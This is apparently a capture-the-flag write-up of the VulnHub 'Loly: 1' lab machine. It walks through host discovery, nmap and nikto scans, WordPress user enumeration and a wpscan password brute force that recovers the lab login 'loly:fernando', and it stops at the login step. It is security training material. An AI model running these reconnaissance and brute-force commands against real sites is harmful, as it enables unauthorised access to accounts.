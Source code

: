 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfeaf4da-2536-4bb4-9a13-9810436e2aff)# Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)


now we have valid credentials, `loly:fernando`, we can login to wodpress site












